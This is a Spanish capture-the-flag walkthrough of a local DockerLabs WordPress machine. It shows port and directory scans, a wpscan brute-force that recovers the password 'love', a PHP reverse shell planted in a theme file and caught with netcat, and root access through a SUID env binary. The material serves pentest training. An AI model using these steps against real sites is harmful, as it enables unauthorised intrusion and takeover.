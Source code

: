 ![dockerLabs.png](assets/dockerLabs.png)

Empezamos con un escaneo general de todos los puertos:
```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-21 21:56 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.09 seconds

```

Encontramos solo el puerto 80 abierto con un servicio http, vamos a hacer un escaneo mas profundo a ver que encontramos:


``` bash
❯ sudo nmap -sCV -p80 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-21 21:58 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.58 seconds
```

Detectamos que es un Apache httpd 2.4.57.

Hacemos una búsqueda de directorios con gobuster y encontramos un directorio wordpress:

![cmsGobs.png](assets/cmsGobs.png)

dentro del directorio worpress también encontramos esto 
``` bash
❯ gobuster dir -u 172.17.0.2/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/wordpress
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

encontramos esta web:

![wordpresscmsWalk.png](assets/wordpresscmsWalk.png)

dentro del comentario de Hola mundo vemos que lo ha subido el ususario mario por lo que podríamos usarlo para futuros ataques de fuerza bruta, por lo tanto entramos al panel de admin y ponemos el ususario mario y una contraseña aleatoria para ver si nos indica que el ususario es correcto:

![loginWalkingMario.png](assets/loginWalkingMario.png)

y efectivamente, wordpress nos confirma que el usuario mario existe por el error que nos lanza, pero no sabemos la contraseña.

Vamos a usar una herramienta que también nos servirá para los que nos estamos preparando la ejpt V2, wpscan, esta herramienta te permite enumerar ususarios y realizar ataques de fuerza bruta específicamente para wordpress:

Para enumerar usuarios escribimos lo siguiente:

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u

# Y confirmamos por segunda vez el ususario mario:

[i] User(s) Identified:

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue May 21 22:50:53 2024
[+] Requests Done: 13
[+] Cached Requests: 46
[+] Data Sent: 3.584 KB
[+] Data Received: 11.221 KB
[+] Memory used: 266.195 MB
[+] Elapsed time: 00:00:03

```

Por lo tanto vamos a realizar un ataque de fuerza bruta con la herramienta wpscan usando el rockyou.

```bash
❯ wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` |  _ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://172.17.0.2/wordpress/ [172.17.0.2]

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                                                                                      
Trying mario / badboy Time: 00:00:01 <                                                                                                                > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue May 21 23:02:28 2024
[+] Requests Done: 562
[+] Cached Requests: 5
[+] Data Sent: 256.485 KB
[+] Data Received: 462.469 KB
[+] Memory used: 273.539 MB
[+] Elapsed time: 00:00:08

```

Y en unos segundos obtenemos un caso positivo:
User: **mario** 
Password: **love**

![loginmariolove.png](assets/loginmariolove.png)

nos logeamos y efectiviwonder, el usuario y la pass son correctas:

![entradamariolove.png](assets/entradamariolove.png)

Una vez aquí, una forma de obtener una reverse shell es cambiando el código de los archivos de temas o plugins que haya descargado, por lo que vamos a apariencia y vemos que tiene el tema de Twenty Twenty-Four

Por lo que vamos al Theme Code editor para editar manualmente archivos especificos de este tema:

![twentyrev.png](assets/twentyrev.png)

accedemos al archivo index.php clickando y vemos el código que tiene, así que vamos a meter un código php de revshells para ejecutar la shell desde aquí:

![revshellcms.png](assets/revshellcms.png)

insertamos la revshell de pentest monkey en el archivo index.php y le damos a upload file.

Ahora inicamos net cat desde nuestra terminal y nos quedamos a la escucha:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
```

para acceder al archivo modificado tendremos que entrar en el directorio:

/wp-content/themes/twentytwentytwo/index.php

Ya que dentro de wp-content/themes se guardan todos los archivos que podemos modificar de los temas instalados en nuestro caso la url entera sera:

http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php

y obtenemos acceso:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 39232
Linux 5ce6219148a7 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 GNU/Linux
 21:30:57 up  2:04,  0 user,  load average: 0.88, 1.12, 1.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (262): Inappropriate ioctl for device
bash: no job control in this shell
www-data@5ce6219148a7:/$ 
```

enumeramos permisos sudo y SUID y vemos que tenemos un SUID de env:

```bash
www-data@5ce6219148a7:/$ whoami
whoami
www-data
www-data@5ce6219148a7:/$ sudo -l
sudo -l
bash: sudo: command not found
www-data@5ce6219148a7:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/env
```

vamos a gtfobins y buscamos env, para suid podemos elevar permisos con este comando: 

![gtfowalking.png](assets/gtfowalking.png)

```bash
./env /bin/sh -p
```

por lo que accedemos a /usr/bin y ejecutamos el comando:

![rootcmswalking.png](assets/rootcmswalking.png)

Y obtenemos root. 
Con esto ya hemos vulnerado la maquina.
